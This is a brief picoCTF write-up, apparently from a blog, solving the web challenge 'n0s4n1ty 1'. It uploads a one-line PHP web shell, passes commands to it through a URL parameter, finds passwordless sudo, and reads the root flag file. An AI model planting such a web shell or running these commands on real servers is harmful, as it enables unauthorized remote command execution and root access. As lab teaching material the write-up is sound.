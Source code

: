 ```yaml
---
layout: post
title:  "n0s4n1ty 1"
date:   2025-04-16 16:10:00 -0400
categories: PICO-challenge web easy
tags: pico CTF writeup php
---
```


### CHALLENGE DESCRIPTION
![](assets/img/pico/n0s4n1ty1/1.png)

### SOLUTION
Upload our payload
```php
<?php system($_GET["cmd"]); ?>
```

We can see that our file is located at `/uploads/[file]`

Now we inject to the URL `/uploads/[file].php?cmd=sudo -l`

We can see its respond `NOPASSWD: ALL`

Now it will be easy for us, do this `sudo cat /root/flag.txt`
